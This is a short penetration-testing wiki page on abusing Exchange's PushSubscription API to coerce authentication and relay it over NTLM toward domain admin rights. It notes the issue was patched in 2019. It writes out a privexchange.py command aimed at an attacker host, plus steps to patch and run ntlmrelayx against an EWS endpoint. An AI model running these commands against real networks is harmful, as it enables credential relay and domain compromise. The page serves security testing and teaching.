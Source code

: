 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. The coerced authentication is made over HTTP, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

> [!TIP]
> In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) to make the API call.
> 
> The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.
> 
> ```bash
> cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
> mv httpattack.py httpattack.py.old
> wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
> sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
> cd /PATH/TO/impacket
> pip3 install .
> ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
> ```

> [!NOTE]
> On February 12th 2019, Microsoft released updates for Exchange which resolved
> 
> * the coerced authentication issue
> * the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.

## Resources

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
